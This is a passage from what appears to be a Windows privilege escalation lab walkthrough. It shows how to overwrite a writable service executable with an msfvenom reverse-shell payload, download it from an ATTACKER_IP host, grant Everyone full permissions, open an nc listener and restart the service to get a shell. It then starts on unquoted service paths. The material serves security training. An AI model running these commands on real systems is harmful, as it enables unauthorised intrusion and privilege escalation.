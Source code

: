 And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`

`python3 -m http.server`

We can then pull the payload from Powershell with the following command:

`wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe`

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

`cd C:\PROGRA~2\SYSTEM~1\`

`C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp`

`C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe`

`C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F`

We start a reverse listener on our attacker machine:

`user@attackerpc$ nc -lvp 4445`

And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:

`C:\> sc stop windowsscheduler`

`C:\> sc start windowsscheduler`

**Note**: PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with svcusr1 privileges:

## Unquoted Service Paths

When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

As an example, let's look at the difference between two services (these services are used as examples only and might not be available in your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by `"C:\Program Files\RealVNC\VNC Server\vncserver.exe"`, followed by the given parameters:

### 8.PNG
